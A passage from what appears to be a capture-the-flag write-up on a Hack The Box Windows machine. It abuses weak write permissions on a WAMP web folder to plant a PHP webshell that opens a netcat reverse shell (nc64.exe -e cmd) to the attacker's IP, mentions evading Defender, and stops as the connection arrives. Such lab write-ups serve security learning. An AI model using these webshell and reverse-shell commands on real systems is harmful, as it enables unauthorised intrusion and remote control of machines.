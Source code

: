 [WAMP](https://www.wampserver.com/en/) is a web environment for Windows
that brings Apache (`httpd.exe`), PHP, and MySQL. It's running out of
`C:\wamp64`, and the permissions on the `www` folder are weak:



    PS C:\wamp64> icacls www
    www NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
        BUILTIN\Administrators:(I)(OI)(CI)(F)
        BUILTIN\Users:(I)(OI)(CI)(RX)
        BUILTIN\Users:(I)(CI)(AD)
        BUILTIN\Users:(I)(CI)(WD)
        CREATOR OWNER:(I)(OI)(CI)(IO)(F)

    Successfully processed 1 files; Failed processing 0 files



`AD` and `WD` represent "Append data/add subdirectory" and "Write
data/add file" respectively, according to the [Microsoft
docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls).
That means any user can write there.

### Shell Via PHP

#### Write

I'll write a webshell. I've had really bad luck echoing from PowerShell,
so I'll want to do it entirely from CMD. With a bit of playing around, I
get this working:



    PS C:\wamp64\www> cmd /c "echo ^<?php shell_exec("C:\\programdata\\nc64.exe -e cmd 10.10.14.6 443 ") ?^> "
    <?php shell_exec(" C:\\programdata\\nc64.exe -e cmd 10.10.14.6 443 ") ?> 



I'll use the `^` to escape the `<` and `>` as shown
[here](https://www.robvanderwoude.com/escapechars.php), same as I did in
[Fighter](/htb-fighter.md#reverse-shell-option-2). I had to
play a bit with the `"` to get them to work, but that did. I'll also
have to escape the `\` with a second `\`.

I'll write that to a file:



    PS C:\wamp64\www> cmd /c "echo ^<?php shell_exec("C:\\programdata\\nc64.exe -e cmd 10.10.14.6 443 ") ?^> > 0xdf.php"



It is worth noting that my first attempt at PHP execution used `system`
instead of `shell_exec`, but the shell keep getting deleted by Defender.

#### Shell

With `nc` listening on 443, I'll visit
`http://10.10.10.71:8080/0xdf.php` in Firefox. It hangs, but there's a
connection at `nc`:
